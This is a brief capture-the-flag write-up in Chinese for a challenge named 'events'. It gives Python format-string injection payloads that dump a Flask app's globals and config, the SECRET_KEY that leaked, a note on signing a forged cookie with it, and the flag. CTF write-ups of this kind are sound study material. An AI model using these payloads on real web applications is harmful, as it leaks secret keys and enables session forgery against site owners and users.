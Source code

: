 # events

這題其實一開始我們方向全錯

一直往cookie去踹

但後來我從`asd:asd`這個帳號發現有人成功利用 python format string 漏洞撈到東西

才開始踹 format string

然後發現漏洞在: `event_name=a&event_address=a&event_important=__dict__`

而 config 在: `event_name=a&event_address=a&event_important=__class__.__init__.__globals__[app].config`

會噴 `SECRET_KEY`: `fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y`

用這把 key 去簽 cookie 就行了

`fb{e@t_aLL_th0s3_c0oKie5}`
